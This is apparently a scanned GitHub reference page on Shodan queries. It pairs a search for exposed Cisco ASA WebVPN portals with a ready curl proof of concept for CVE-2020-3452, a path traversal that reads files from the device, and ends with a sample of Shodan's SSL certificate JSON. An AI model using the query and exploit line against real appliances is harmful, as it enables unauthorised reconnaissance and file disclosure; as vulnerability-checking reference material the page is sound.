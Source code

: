 Query:
```
ssl:"Target" "Set-Cookie: webvpn;"
```

Vulnerability checking/PoC for CVE-2020-3452:
```bash
curl -s -k "https://[IP or DOMAIN]/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../"
```

The `ssl` filter can be further used for more specific results. The SSL certificate is read by Shodan in a JSON format with this form ([source](https://blog.shodan.io/ssl-update/)):
```
"ssl": {
    "cert": {
        "sig_alg": "sha1WithRSAEncryption",
        "issued": "20110325103212Z",
        "expires": "20120324103212Z",
        "expired": true,
        "version": 2,
        "extensions": [{
            "data": "\u0003\u0002\u0006@",
            "name": "nsCertType"
        }],
        "serial": 10104044343792293356,
        "issuer": {
            "C": "TW",
            "L": "TAIPEI",
            "O": "CAMEO",
            "ST": "TAIWAN"
        },
        "pubkey": {
            "bits": 1024,
            "type": "rsa"
        },
        "subject": {
            "C": "TW",
            "L": "TAIPEI",
            "O": "CAMEO",
            "ST": "TAIWAN"
			"CN":"name.tld"
        }
    },
    "cipher": {
        "version": "TLSv1/SSLv3",
        "bits": 256,
        "name": "AES256-SHA"
    },
    "chain": ["-----BEGIN CERTIFICATE----- 
	MIICETCCAXqgAwIBAgIJAIw4xswSiNXsMA0GCSqGSIb3DQEBBQUAMD8xCzAJBgNV
	BAYTAlRXMQ8wDQYDVQQIEwZUQUlXQU4xDzANBgNVBAcTBlRBSVBFSTEOMAwGA1UE
	ChMFQ0FNRU8wHhcNMTEwMzI1MTAzMjEyWhcNMTIwMzI0MTAzMjEyWjA/MQswCQYD
	VQQGEwJUVzEPMA0GA1UECBMGVEFJV0FOMQ8wDQYDVQQHEwZUQUlQRUkxDjAMBgNV
	BAoTBUNBTUVPMIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCj8HWSuWUHYWLD
	ASV1KCWd9+9U19tINKgY8CTw/gKeVoF6bjgQ3tuXliScLAsU8nNGiZibaXq9KR67
	nLjjHzFiJDr6s8M3qimLdhcA7kf71v806Mls4KctdrMUiX3Bc7WvYtbClke0QDlC
	FGgK7HksEWpQ026E3pI0T/2mTvbeXQIDAQABoxUwEzARBglghkgBhvhCAQEEBAMC
	BkAwDQYJKoZIhvcNAQEFBQADgYEANbiCHCROX0X9ZbBaOsijkGh6+7WLaLUDEUpp
	rw+bHFKhOvtQgEyQ01U0V9ZYtdPyVLnNVmJu6Q8MPuqBCkpcv0/gH31YSSRyOhid
	vc+qCUCA7UBqt5f7QVOOYPqhzieoUO+pmQ3zidcwUGYh19gQv/fl7SnG00cDgxg3
	m89S7ao=
	-----END CERTIFICATE-----
	"],
    "versions": ["TLSv1", "SSLv3", "-SSLv2", "-TLSv1.1", "-TLSv1.2"]
```